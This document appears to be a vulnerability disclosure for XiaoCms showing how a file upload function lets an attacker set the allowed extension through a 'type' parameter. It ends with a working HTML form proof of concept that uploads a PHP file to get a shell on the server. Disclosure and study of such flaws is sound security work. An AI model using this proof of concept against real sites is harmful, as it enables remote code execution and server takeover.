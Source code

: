 # GETSHELL
----------------------
Vulnerability code is located `XiaoCms\admin\controller\uploadfile.php`,take a look at the upload function.
![](https://github.com/AvaterXXX/XiaoCms/blob/master/image/GETSHELL_1.png)
You can see a series of operations that define the upload ext, where the set_limit_type and upload functions are called at the line.
![](https://github.com/AvaterXXX/XiaoCms/blob/master/image/GETSHELL_2.png)
You can see that upload also calls the parse_init function, which is also located in `upload.class.php`.
![](https://github.com/AvaterXXX/XiaoCms/blob/master/image/GETSHELL_3.png)
Calling a key get_file_ext in the function, also on this page.
![](https://github.com/AvaterXXX/XiaoCms/blob/master/image/GETSHELL_4.png)
At this point, our code is basically analyzed, we can see that there is a logic error in the layer call. Although the file suffix is restricted, it is controllable by the attacker, so we only need to set the type to php.

POC：
```
<html>
    <body>
    <form action="http://127.0.0.1/admin/index.php?c=uploadfile&a=uploadify_upload&type=php&size=1000" method="post" enctype="multipart/form-data">
    <input type="file" name="file" />
    <input type="submit" value="submit" />
    </form>
</body>
</html>
```
![](https://github.com/AvaterXXX/XiaoCms/blob/master/image/GETSHELL_5.png)
![](https://github.com/AvaterXXX/XiaoCms/blob/master/image/GETSHELL_6.png)
